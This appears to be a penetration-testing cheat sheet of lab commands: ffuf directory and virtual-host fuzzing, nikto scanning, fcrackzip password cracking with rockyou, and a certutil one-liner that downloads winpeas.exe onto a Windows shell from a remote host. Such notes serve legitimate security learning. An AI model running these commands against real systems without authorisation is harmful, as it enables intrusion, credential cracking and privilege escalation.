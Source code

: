 `ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://10.10.10.10/FUZZ -ic`

`-ic` - ignore comments like #this is a comment

### FFUF subdomain/virtual Host

`ffuf -H "Host: FUZZ.10.10.219.238" -u http://10.10.10.10 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomaains-top1million-10000.txt`

Do a simple command first then filter the reponse

`ffuf -H "Host: FUZZ.10.10.219.238" -u http://10.10.10.10 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomaains-top1million-10000.txt -fs 140`

`-fs` filter size

## Certutil (download file on window shell)

`certutil.exe -urlcache -f http://10.10.10.10:8000/winpeas.exe winpeas.exe`

## Fcrackzip  (crack zip password)

`fcrackzip -v -u -D -p /home/kali/WL/rockyou.txt save.zip`

## Nikto

`nikto -h http://10.10.10.10`

## Nano

`ctrl+k`     Delete the whole line

## Unzip rockyou.txt.gz

`cd /usr/share/wordlists/`

`sudo gzip -d rockyou.txt.gz` 

or one liner

`cd /usr/share/wordlists/ && sudo gzip -d rockyou.txt.gz`


## etc/hosts

### Windows

`C:\Windows\System32\drivers\etc`

### Linux

`sudo nano etc/hosts`
